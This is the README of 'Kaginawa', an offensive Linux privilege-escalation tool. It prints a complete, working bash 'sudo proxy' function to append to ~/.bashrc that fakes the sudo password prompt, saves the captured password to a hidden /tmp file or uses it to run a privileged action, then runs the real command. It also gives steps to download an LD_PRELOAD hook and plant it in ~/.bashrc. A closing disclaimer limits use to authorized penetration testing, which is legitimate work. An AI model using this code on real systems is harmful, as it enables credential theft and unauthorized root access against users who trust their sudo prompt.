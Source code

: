 # Kaginawa

A hook for helping privilege escalation

## Scenario

You have code execution on an linux account with sudo privileges but cannot find a privilege escalation exploit.

A common technique in this case is creating a "sudo proxy", which is basically a function that wraps the sudo command to capture the user's credentials or execute a privileged action.

For example, the following function can be appended to the ~/.bashrc:

```bash
REAL_SUDO=$(which sudo)
ACTION=""

sudo() {
  for ((i=0; i<3; i++)); do
    echo -n "[sudo] password for $USER: "
    read -s user_pass
    echo ""

    # Validate password
    echo "$user_pass" | $REAL_SUDO -S -v >/dev/null 2>&1
    if [ $? -ne 0 ]; then
      echo "Sorry, try again."
    else
      # Run ACTION if defined
      if [ -n "$ACTION" ]; then
        echo "$user_pass" | $REAL_SUDO -S "$ACTION" >/dev/null 2>&1 &
      else
        echo "$user_pass" >> /tmp/.X1027-lock
      fi

      # Run original command
      echo "$user_pass" | $REAL_SUDO -S -- "$@"
      break
    fi
  done
}
```

The very same attack can be performed via LD_PRELOAD hooks. Kaginawa hooks the bash's execve wrapper and run a custom command stored at "fake_argv".

- First Step: Drop kaginawa into target system. For example:

```bash
wget https://example.com/kaginawa.so
```

- Second Step: Infect ~/.bashrc

```bash
echo 'LD_PRELOAD=/full/path/to/kaginawa.so bash' >> ~/.bashrc
```

- Third Step: Patience

## Disclaimer

This tool was developed for authorized adversary simulations and penetration testing in controlled environments. 
It is intended for use only on systems you own or have explicit permission to test. 
Use responsibly and at your own risk.
